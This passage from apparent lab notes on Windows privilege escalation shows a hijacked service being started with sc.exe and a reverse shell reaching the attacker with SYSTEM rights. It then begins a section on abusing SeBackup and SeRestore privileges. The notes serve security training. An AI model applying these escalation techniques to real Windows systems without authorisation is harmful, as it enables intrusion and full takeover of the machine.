 \[SC] ControlService FAILED 1062:

The service has not been started.

sc.exe start thmservice

SERVICE\_NAME: thmservice

TYPE : 10 WIN32\_OWN\_PROCESS

STATE : 2 START\_PENDING

(NOT\_STOPPABLE, NOT\_PAUSABLE, IGNORES\_SHUTDOWN)

WIN32\_EXIT\_CODE : 0 (0x0)

SERVICE\_EXIT\_CODE : 0 (0x0)

CHECKPOINT : 0x0

WAIT\_HINT : 0x7d0

PID : 3328

FLAGS :

**9. Shell received back to attacker with SYSTEM privileges.**

Connection from 10.10.29.166 49894 received!

Microsoft Windows \[Version 10.0.17763.1821]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami

nt authority\system

### **Abusing Dangerous Privileges** <a href="#id-9fp8iwq3uw4u" id="id-9fp8iwq3uw4u"></a>

### **Windows Privileges** <a href="#n3wso0ph90wg" id="n3wso0ph90wg"></a>

* whoami /priv checks user's assigned privileges.
* [Full list of available Windows privileges](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
* Comprehensive list of exploitable privileges on[ Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.

### **SeBackup / SeRestore Privileges** <a href="#id-6zr0ukbtejx" id="id-6zr0ukbtejx"></a>

* Allows users to read and write to any file in the system.
  * Ignores any DACL in place.
* Rationale is to allow certain users to perform backups without requiring full admin rights.
* Attacker can trivially escalate privileges with these privileges.
